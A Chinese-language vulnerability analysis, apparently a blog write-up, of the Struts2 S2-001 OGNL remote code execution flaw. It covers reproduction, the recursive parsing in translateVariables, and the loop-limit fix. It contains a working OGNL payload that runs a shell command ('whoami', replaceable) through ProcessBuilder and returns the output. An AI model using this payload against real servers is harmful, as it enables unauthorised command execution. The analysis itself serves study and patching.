 0x01 漏洞概述
1、漏洞名称
漏洞名称：Struts Remote Code Exploit
漏洞编号：Struts2-001
漏洞类型：Remote Code Execution
2、漏洞原理
Struts2 是流行和成熟的基于 MVC 设计模式的 Web 应用程序框架。 Struts2 不只是 Struts1 下一个版本，它是一个完全重写的 Struts 架构。Struts2 的标签中使用的是OGNL表达式，OGNL 是 Object Graphic Navigation Language(对象图导航语言)的缩写，它是一种功能强大的表达式语言，使用它可以存取对象的任意属性，调用对象的方法，使用 OGNL 表达式的主要作用是简化访问对象中的属性值，但Struts2漏洞就源于OGNL。漏洞信息可见https://cwiki.apache.org/confluence/display/WW/S2-001



对ognl表达式的解析方法是通过递归循环的方式进行解析，导致可以对输入形如%{*}的表达式字符串进行解析。

0x02 漏洞复现
测试poc

%{1+1}
![Pasted image 20230519111956](http://qn.qu1u1.cn/202305191123033.png)


解析表达式，在返回框中返回2

![Pasted image 20230519112036](http://qn.qu1u1.cn/202305191123682.png)



或者直接执行命令 

%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
其中whoami可以换其他命令

![[Pasted image 20230519112100.png]]





0x03 漏洞分析
1、漏洞成因总体概览
该漏洞触发的一个因素之一是在Action执行完成之后，返回“错误”的结果到原先的带有taglib标签的jsp进行渲染，而返回的时候会对字符串进行ognl表达式递归解析。借助一个图更好理解一些

![Pasted image 20230519112140](http://qn.qu1u1.cn/202305191123653.png)

Result配置



我们看看execute方法的内在逻辑



依照struts.xml当execute返回success时，将指向success.jsp,若为error将执行index.jsp，而index.jsp中的代码如下



当其返回到index.jsp时，而jsp中有需要解析渲染的标签，又因为name中的内容为%{1+1},被当成ognl表达式执行。最后返回给index.jsp的name变量。

网上很多文章和论坛在验证这块说是当验证不通过，从而result转向原页面（index.jsp）时候会出现这个漏洞，感觉还是不够严谨，其实无论验证成功或者失败，与结果无关，真正的前提原因是无论转向哪个页面，只要出现解析标签解析输入的时候的变量name（<s:xxxx name="name">），那么payload %{*}将会进入有问题的ognl表达式解析方法中进行解析，从而造成命令执行。验证如下：

修改success.jsp，直接添加了跟index.jsp一样的内容，textfield修改为textarea



根据LoginAction.java其逻辑既

（1）index.jsp输入

（2）LoginAction处理

（3）LoginAction返回success转向success.jsp而非index.jsp原页面



2、 漏洞细节
后面的篇幅过多且复杂，想大概了解直接看最后看粗体字。

关于这段解析的细节，网络上很多文章都有写，从LoginAction到渲染的这段调用太复杂了，这里直接从doEndTag开始讲，力求通俗易懂。

从doEndTag开始分析，主要是因为从上面的漏洞概览上可知，该漏洞是在渲染返回的jsp中的标签的时候触发的。

请求payload



LoginAction处理完结果返回



doEndTag下断点



跟进component.end()



继续跟进evaluateParams



findValue既解析该表达式字符串的值，此处输入的expr的值为%{name}



表达式解析执行



获取name的值



通过getValue对name进行取值



最终返回%{1+1},while循环并未中断%{1+1}再次解析。



若expr为name则取name的值，若为1+1则直接计算其结果，若为其他的payload比如执行命令则直接执行命令。



执行结果





理一理核心关键点

（1）假设输入的是其abc或者2+2字符串，进入解析时候的表达式是%{name},而getValue("name")返回值则是2+2的字字符串，再次进入循环时，被判断不是表达式直接返回给前台（漏洞没有触发）。

（2）若输入的是%{2+2}，进入解析时候的表达式也是getValue("name")，getValue("name")返回的则是%{2+2}，而解析方法由于是循环式的，由于判断该值依然是ognl表达式，则进一步去出2+2传达给getValue，此时的getValue("2+2")，则2+2被当作表达式执行了加法。

参考文章

Struts2 001 漏洞复现&分析 - 0x28 - 博客园

S2-001漏洞复现 - 吟风芥尘 - 博客园

漏洞修复
public static Object translateVariables(char open, String expression, ValueStack stack, Class asType, TextParseUtil.ParsedValueEvaluator evaluator, int maxLoopCount) {
        Object result = expression;
 
        while(true) {
            int start = expression.indexOf(open + "{");
            int length = expression.length();
            int x = start + 2;
            int count = 1;
 
            while(start != -1 && x < length && count != 0) {
                char c = expression.charAt(x++);
                if (c == '{') {
                    ++count;
                } else if (c == '}') {
                    --count;
                }
            }
            if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
            }
            int end = x - 1;
            if (start == -1 || end == -1 || count != 0) {
                return XWorkConverter.getInstance().convertValue(stack.getContext(), result, asType);
            }
 
            String var = expression.substring(start + 2, end);
            Object o = stack.findValue(var, asType);
            if (evaluator != null) {
                o = evaluator.evaluate(o);
            }
 
            String left = expression.substring(0, start);
            String right = expression.substring(end + 1);
            if (o != null) {
                if (TextUtils.stringSet(left)) {
                    result = left + o;
                } else {
                    result = o;
                }
 
                if (TextUtils.stringSet(right)) {
                    result = result + right;
                }
 
                expression = left + o + right;
            } else {
                result = left + right;
                expression = left + right;
            }
        }
    }
这里增加了对OGNL递归解析次数的判断，当解析完一层表达式后，如图，此时loopCount > maxLoopCount，从而执行break，不再继续解析%{1+1}，默认情况下只会解析第一层：

if (loopCount > maxLoopCount) {
                // translateVariables prevent infinite loop / expression recursive evaluation
                break;
}
